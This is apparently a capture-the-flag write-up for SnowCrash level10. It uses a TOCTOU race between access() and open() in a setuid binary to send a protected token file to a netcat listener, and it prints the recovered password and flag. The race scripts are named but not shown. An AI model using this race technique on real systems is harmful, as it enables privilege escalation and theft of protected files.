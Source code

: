 How to find:

    level10@SnowCrash:~$ ls -la
    total 28
    dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
    d--x--x--x  1 root    users     340 Aug 30  2015 ..
    -r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
    -r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
    -r-x------  1 level10 level10   675 Apr  3  2012 .profile
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token

No permissions

    level10@SnowCrash:~$ ./level10
    ./level10 file host
            sends file to host if you have access to it
    
    level10@SnowCrash:~$ ./level10 token
    ./level10 file host
            sends file to host if you have access to it
    
    level10@SnowCrash:~$ cat token
    cat: token: Permission denied
    
    level10@SnowCrash:~$ ./token
    -bash: ./token: Permission denied

open binary with strings

    level10@SnowCrash:~$ strings level10
    [...]
    open
    access
    [...]
    %s file host
            sends file to host if you have access to it
    Connecting to %s:6969 ..
    Unable to connect to host %s
    .*( )*.
    Unable to write banner to host %s
    Connected!
    Sending file ..
    Damn. Unable to open file
    Unable to read from file: %s
    wrote file!
    You don't have access to %s
    [...]

Access checks if we have the rights to read the file then try to send it to a server and shows its content. 
Unfortunately we don't have rights on token


man 2 access

    ...
    NOTES
        Warning:  Using  access()  to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking      
        and opening the file to manipulate it.  For this reason, the use of this system call should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the process's effective user  ID  to      
        the real ID and then call open(2).)
    ...

Race conditions exploit
There is a delay between access checks permissions and try to open
We create a symbolic link between or file and token and syncronize with the script




try to send a file to host

    level10@SnowCrash:~$ echo "Hola que tal" /tmp/pepe

    level10@SnowCrash:~$ ./level10 /tmp/pepe localhost

    Connecting to localhost:6969 .. Unable to connect to host localhost

open another terminal and listen in port 6969

    level10@SnowCrash:~$ nc -lk 6969


1st terminal, try to connect using VM ip

    level10@SnowCrash:~$ ./level10 /tmp/pepe 10.0.2.15
    Connecting to 10.0.2.15:6969 .. Connected!

2nd terminal

    .*( )*.
    Hola que tal


Now lets crack it:

1st terminal

    level10@SnowCrash:~$ nc -lk 6969 | grep -v ".*( )*."

2nd terminal

    level10@SnowCrash:/$ bash /tmp/raceconditions.sh

3rd terminal

    bash /tmp/runlevel.sh

1st terminal

    woupa2yuojeeaaed06riuj63c


now try user flag10

    level10@SnowCrash:/$ su flag10
    Password: 
    Don't forget to launch getflag !
    flag10@SnowCrash:~$ getflag
    Check flag.Here is your token : feulo4b72j7edeahuete3no7c

